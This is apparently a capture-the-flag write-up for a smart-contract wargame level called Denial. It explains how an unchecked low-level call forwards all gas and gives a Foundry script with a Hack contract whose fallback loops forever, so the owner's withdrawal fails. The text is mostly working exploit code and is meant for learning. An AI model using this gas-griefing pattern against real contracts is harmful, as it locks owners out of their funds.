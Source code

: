 ```solidity
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

**Goal:**

Deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

**Explanation:**

1. We should revert the call when the owner calls the `withdraw()` function. But if we do a simple revert in our contract fallback it won’t work.
2. Because withdraw function doesn’t check for the return value.
3. One thing we can do is, drain the gas of the transaction that is sent by the owner.
4. Call to partner is made by the `call` which will forward all the remaining gas to the external call.
5. So, we can drain all the gas by writing a most expensive computation in Partner contract.
6. I have written an infinite loop inside the fallback of the Attack contract and registered the Attack contract as the partner in Denial contract

**Level20Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import {Denial} from "../src/Level20.sol";

contract Level20Sol is Script{
    Denial public instance = Denial(payable(0x222eE4906Ab1064Af1c66ccA78c71F9a47b18EAE));
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        new Hack().exploit();
        vm.stopBroadcast();
    }
}

contract Hack{
        Denial public instance = Denial(payable(0x222eE4906Ab1064Af1c66ccA78c71F9a47b18EAE));
        function exploit() public{
            instance.setWithdrawPartner(address(this));
        }
        fallback() external payable{
            //draining the entire gas with infinite loop
            uint i = 0;
            while (i < 10) {}
        }
}
```
